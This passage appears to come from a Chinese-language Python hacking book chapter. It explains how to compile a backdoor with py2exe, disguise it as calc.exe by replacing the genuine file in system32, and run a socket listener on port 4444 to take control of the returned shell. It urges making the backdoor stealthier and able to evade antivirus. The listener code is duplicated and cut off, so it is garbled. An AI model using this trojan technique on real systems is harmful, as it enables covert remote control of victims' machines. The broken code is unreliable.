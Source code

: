 ```
python setup.py py2exe 
```

在编译完成后，在目录下会看到多出两个目录，dist 和 build。在 dist 文件夹下可以找到 backdoor.exe。重命名为 calc.exe 拷贝到目标系统，并将目标系统的 calc.exe 从 C:\WINDOWS\system32\ 拷贝到别的 目录(比如 C:\ folder)。将我们的 calc.exe 复制到 C:\WINDOWS\system32\ 目录下。现在我们 还需要一个简单的 shell 接口，用来和反弹回来的 shell 交互，发送命令，接收结果。

```
#backdoor_shell.py
import socket 
import sys
host = "192.168.244.1"
port = 4444
server = socket.socket( socket.AF_INET, socket.SOCK_STREAM ) 
server.bind( ( host, port ) )
server.listen( 5 )
print "[*] Server bound to %s:%d" % ( host , port ) 
#backdoor_shell.py
import socket 
import sys
host = "192.168.244.1"
port = 4444
server = socket.socket( socket.AF_INET, socket.SOCK_STREAM ) 
server.bind( ( host, port ) )
server.listen( 5 )
print "[*] Server bound to %s:%d" % ( host , port ) 
```

这是一个非常就当的 socket 服务器，仅仅是接受一个连接，然后处理一些基础的读写工 作。你可以修改 host 和 port 为自己需要的参数（比如 53， 80 ）。先运行服务器进行端口 监听，然后在远程的系统(本机也行)上运行 cacl.exe。你会看到弹出了计算器的窗口，同时 你的 Python shell 服务器也会接收到一个连接，开始读取数据。为了打断 recv 循环，请按下 CTRL-C 键，然后程序提示你输入命令。这时候就能做很多事情了，比如使用 WIndows shell 内建的命令，比如 dir，cd ，type。每个命令的输出结果都能够传输回来。现在你拥有了一 个高效的后门。用你的想象力扩展它，让它更猥琐，让它能逃过更多的杀毒的软件，更隐蔽。 我们的目标就是没有最坏，只有更坏。用 Python 的好处就是，快速，简单，可重用。

当你看完这章，你已经学会了 DLL 和代码注入这两种非常有用的技术。在今后的渗透 测试或者逆向工程中，你会发现花在这些技能上的精力是值得的。接下来我们会变得更黑， 我们要开始学习如何破坏程序。用 Python，用 Python-based fuzzer，用所有伟大的开源工具。